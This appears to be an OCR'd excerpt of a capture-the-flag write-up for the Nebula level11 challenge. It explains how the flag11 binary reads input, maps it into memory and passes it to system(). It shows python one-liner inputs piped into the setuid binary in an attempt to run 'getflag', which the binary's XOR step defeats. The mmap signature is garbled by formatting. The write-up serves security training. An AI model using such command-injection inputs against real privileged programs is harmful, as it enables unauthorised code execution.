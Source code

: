 **Xor Method** 
```
#Size of Buf
char buf[1024];
#If length less than 1024, call process
if(length < sizeof(buf))
#If length not less than 1024, do the following
blue = length
fd = random path
while blue > 0
	pink = read (1 byte of buf)
	if pink <= 0
		read failed error
	write(fd,buf,pink)
	blue -= pink
mem = memory mapping ( fd )
process ( mem )
```
Test Running
```
#Hit condition 1
level11@nebula:/home/flag11$ echo -e "Content-Length: 1024\nl" | ./flag11
blue = 1024, length = 1024, pink = 2
blue = 1022, length = 1024, pink = 0
flag11: fread fail(blue = 1022, length = 1024): Bad file descriptor

#Hit Condition 2
level11@nebula:/home/flag11$ python -c'print "Content-Length: 1024\n"+"A"*1024' | ./flag11
blue = 1024, length = 1024, pink = 1024
flag11: mmap: Bad file descriptor
```
When mmap() hit , bad file descriptor error because of xor encryption
**mmap() - map files or devices into memory**
```
void *mmap(void ***_addr_**, size_t** _length_**, int** _prot_**, int** _flags_**,****int** _fd_**, off_t** _offset_**);
```
Nebula
```
mem = mmap(NULL, length, PROT_READ|PROT_WRITE, MAP_PRIVATE, fd, 0);
system(mem);
```
Now we clearly know our goal. 
 - We have to make pink and blue into 1024
 - Then program will write our input into file ( random files )
 - And then program will map from files to memory
 - Execute data from memory

Export Temp and Test Run
```
export TEMP=/tmp

level11@nebula:~$ python -c 'print "Content-Length: 1024\n"+"getflag\x00"+"A"*1018' | /home/flag11/flag11
blue = 1024, length = 1024, pink = 1024
sh: $'g\374\351\322\2165x\247A\376\200': command not found

```
Trying to execute getflag but failed by Xor
